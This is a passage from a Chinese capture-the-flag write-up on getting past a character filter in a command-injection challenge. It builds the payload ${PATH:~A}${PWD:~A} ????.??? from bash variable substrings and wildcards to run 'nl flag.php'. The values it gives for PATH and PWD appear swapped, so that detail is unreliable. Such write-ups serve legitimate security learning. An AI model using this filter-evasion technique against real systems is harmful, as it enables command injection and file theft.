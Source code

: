 尝试了很多命令，都被过滤了，这里最好可以用脚本跑一下哪些被过滤了，实际上fuzz尝试之后发现只有大写字母和${}:?.~等等字符可以通过，所以这里可以使用bash内置变量

> **bash的内置命令**
>
> 1.BASH——bash的完整路径名。通常是：`/bin/bash`或`/usr/local/bin/bash`。
>
> 2.PWD——目前的工作目录
>
> 3.PATH——命令搜寻路径
>
> 4.HOME——目前使用者的home路径
>
> 5.IFS——定义字段分隔字符。默认值为：空格符、tab字符、换行符。

![image-20210829123432317](C:\Users\shuoke\AppData\Roaming\Typora\typora-user-images\image-20210829123432317.png)

```bash
echo ${PWD:0:1}      #从0下标开始的第一个字符
echo ${PWD:~0:1}     #从结尾开始往前的第一个字符
echo ${PATH:~0}
echo ${PATH:~A}      #字母A与0效果一样
```

所以可以构造`payload：${PATH:~A}${PWD:~A} ????.???`，

```
${PATH}：/var/www/html
${PWD}：/bin
${PATH:~A}${PWD:~A} ????.???   相当于   nl flag.php
```

